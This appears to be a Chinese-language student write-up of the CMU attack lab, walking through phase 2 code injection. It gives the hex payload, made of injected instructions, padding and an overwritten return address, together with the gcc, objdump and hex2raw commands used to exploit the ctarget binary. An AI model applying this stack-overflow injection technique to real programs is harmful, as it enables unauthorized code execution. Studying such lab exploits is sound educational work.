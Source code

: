 <img src="mdpics/cl2.png" height="290" width="330">

步骤：
1. 把需要用到的命令放在cl2Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl2Draft.s
得到一个目标代码： cl2Draft.o

2. 反汇编 成汇编代码：
objdump -d cl2Draft.o > cl2Binary.s
得到文件 cl2Binary.s

3. 查看cl2Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl2hex.txt中。得到的内容为：

    48 83 ec 24         	/\* sub $0x24(36),%rsp  让rsp指向touch2的地址的位置 \*/  
    48 c7 c7 fa 97 b9 59 	/\* mov 0x59b997fa,%rdi 给touch2传递参数 \*/  
    c3                   	/\* retq \*/  
    ec 17 40 00 00 00 00 00 /\* 函数touch2的地址 现在这里有20个字节 \*/  
    41 42 43 44 45 46 47 48 49 50   
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    78 dc 61 55               
    /\* 返回的injection code的地址 也就是 第一行命令"sub    $0x24(36),%rsp"的地址 \*/

4. 把 cl2hex.txt 转换成 cl2raw.txt：
./hex2raw < cl2hex.txt > cl2raw.txt

5. 运行程序：
./ctarget -q < cl2raw.txt


# phase3 (code injection level3)
要求：在执行完test()中的getbuf()函数后，执行touch3()函数，并且需要给touch2()传递一个字符串类型的参数(cookie)
